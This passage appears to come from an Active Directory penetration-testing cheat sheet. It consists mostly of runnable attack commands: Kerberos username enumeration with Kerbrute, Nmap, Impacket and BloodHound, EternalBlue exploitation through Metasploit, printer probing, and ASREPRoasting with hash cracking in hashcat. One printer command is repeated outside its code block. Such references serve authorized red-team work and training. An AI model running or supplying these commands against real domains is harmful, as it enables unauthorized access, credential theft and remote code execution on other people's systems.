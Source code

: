 ```bash
# Enumerate usernames using Kerbrute:
kerbrute userenum -d test.local usernames.txt

# Enumerate usernames using Nmap:
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='test.local',userdb=usernames.txt <dc-ip>

# Enumerate usernames using Impacket's GetADUsers:
GetADUsers.py -dc-ip <dc-ip> domain/username:password

# Enumerate usernames using BloodHound:
bloodhound-python -u <username> -p '<password>' -d <domain> -c 'all' --only-user-enumeration
```

### Low Hanging Fruit / Easy Wins

#### MS17 Exploits

- Exploit EternalBlue or similar vulnerabilities.
- Use Metasploit to automate EternalBlue exploitation:

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <target-ip>
run
```

#### Printers

- Use tools to dump printer address books for potential credentials.
- Example:

```bash
# Use Nmap to detect vulnerable printers:
  nmap -p 9100 --script=printer-ready-info
```
- Use Nmap to detect vulnerable printers:
  nmap -p 9100 --script=printer-ready-info
---

## Usernames with No Passwords

### Password Spray

Test common passwords against user accounts to identify weak credentials.

### ASREPRoast

```bash
# Enumerate and crack accounts vulnerable to ASREPRoasting.
GetNPUsers.py -request -usersfile users.txt -format hashcat -outputfile ASREPRoastables.txt domain/user:pass
hashcat -m 18200 <ASREPRoastables.txt> <wordlist>
```
